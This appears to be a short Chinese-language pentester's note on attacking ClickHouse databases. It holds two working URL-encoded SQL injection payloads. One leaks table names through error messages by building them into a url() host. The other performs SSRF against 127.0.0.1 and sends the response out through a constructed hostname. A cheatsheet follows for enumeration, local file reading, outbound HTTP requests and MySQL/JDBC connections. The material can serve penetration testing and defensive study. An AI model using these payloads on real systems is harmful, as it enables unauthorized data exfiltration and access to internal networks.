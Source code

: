 ```yaml
---
title: "攻击Clickhouse"
author: ["4shen0ne"]
draft: false
---
```


文档: <https://clickhouse.tech/docs/zh/>

file 函数可以读取文件, 但不能穿越到父目录

{{< figure src="/ox-hugo/2021-01-14_20-25-31_screenshot.png" >}}

报错注入, url 函数找不到 host, 抛出异常

```nil
')+or+(select+c+from+url('http://'||arrayStringConcat((select+groupUniqArray(table)+from+system.columns),',+')||'','CSV','c+String'))=('
```

SSRF, 结果中可能包含 SSRF 的响应内容(小写)

```nil
')+or+(select+c+from+url('http://RESULT-'||arrayStringConcat((select+groupArray(c)+from+url('http://127.0.0.1/','CSV','c+String')),unhex('0a'))||'','CSV','c+String'))=('
```

cheatsheet

| Goal                               | Payload                                                                                              |
|------------------------------------|------------------------------------------------------------------------------------------------------|
| Version                            | SELECT version()                                                                                     |
| Current DB                         | SELECT currentDatabase()                                                                             |
| List DB                            | SHOW databases OR SELECT \* FROM system.databases                                                    |
| List columns                       | SELECT \* FROM system.columns                                                                        |
| List tables                        | SELECT \* FROM system.tables                                                                         |
| Hostname                           | SELECT hostName()                                                                                    |
| Comment                            | SELECT 1 _**comment**_ OR SELECT 1—comment                                                           |
| Dummy table (dual)                 | SELECT \* FROM system.one                                                                            |
| Current User                       | SELECT ‘current_user’,user FROM system.processes WHERE query LIKE ‘%current_user%’                   |
| Current os_user                    | SELECT os_user FROM system.processes                                                                 |
| HTTP request                       | SELECT \* FROM url(‘<http://server>’, ‘CSV’, col String)                                             |
| Read file                          | SELECT \* FROM file(‘nameFile’, ‘CSV’, col String)                                                   |
| Unhex                              | SELECT unhex(‘746f62695f70697a6461’)                                                                 |
| Create an array of argument values | SELECT groupArray(x)                                                                                 |
| Concat array of strings            | SELECT arrayStringConcat(arr[, separator])                                                           |
| Connect to MySQL                   | mysql(‘host:port’, ‘database’, ‘table’, ‘user’, ‘password'[, replace_query, ‘on_duplicate_clause’]); |
| JDBC connection                    | SELECT \* FROM jdbc(‘jdbc:mysql://localhost:3306/?user=root&amp;password=root’, ‘schema’, ‘table’)   |
